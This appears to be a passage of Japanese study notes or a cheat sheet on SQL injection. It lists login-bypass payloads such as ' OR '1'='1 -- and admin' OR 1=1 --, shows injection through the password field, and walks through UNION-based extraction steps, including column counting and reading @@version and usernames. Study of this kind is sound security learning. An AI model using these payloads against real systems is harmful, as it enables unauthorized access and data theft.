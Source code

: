 - コメントアウトによる回避
	- SQL構文を成立させるために `--` または `#` を使って残りの文を無効化
	- 例: `' OR '1'='1' --`

#### 実用ペイロード
- `' OR '1'='1`
- `admin' OR 1=1 --`
- `' OR 'a'='a`
- `" OR "1"="1`
- `' OR 1=1#`
- `' OR '1
- `' OR 1 -- -`
- `" OR "" = "`
- `" OR 1 = 1 -- -`
- `'='`
- `'LIKE'`
- `'=0--+`

- パスワード側への注入
	- usernameが無効でも、passwordに注入することでバイパス可能
	- 例: パスワード欄に `something' OR '1'='1` を入れる

- クエリロジックの評価順（優先順位）
	- `AND` が `OR` より優先される（MySQLの演算子優先度）
	- 例: `' OR '1'='1' AND 'a'='b'` → `'1'='1'` がTRUEでも全体はFALSEになる可能性あり
	- 括弧で制御可能：`' OR ('1'='1' AND 'a'='b')`

- 注意点
	- 実際の環境ではセミコロンによる多段クエリは使えないことが多い（MySQLでは無効）
	- 有効なユーザー名を知らなくても、`OR '1'='1` によって最初の一致ユーザーでログイン可能


## UnionベースSQLインジェクション

- 目的と概要
	- UNIONを使って、本来アクセスできないテーブルの情報を取得する
	- 脆弱な検索や表示機能を通じて、DBの他テーブルと結合した結果を画面に表示させる

- 基本条件
	- `UNION` するSELECT文は、**列数とデータ型の並びが一致している必要がある**
	- `NULL` はどんな型にも使える万能ダミー値
	- ダミー列の例：`UNION SELECT username, NULL, NULL, NULL FROM users`

- 脆弱性の確認方法
	- `'` などを入力してSQL構文エラーが出るかを確認
	- エラーが出ればSQLインジェクションの可能性あり

- 列数の特定方法
	- `ORDER BY` を使う：
		- `' ORDER BY 1-- -` から始めて、表示が崩れる直前の数が列数
	- `UNION SELECT` を使う：
		- `' UNION SELECT 1,2,3-- -` と試し、エラーが出ない列数が正解

- 表示される列の特定
	- `1,2,3,4...` のような数字を使って、どの列が実際に画面に出力されるか確認する
	- 出力される列に `@@version` や `username` などの情報を挿入する
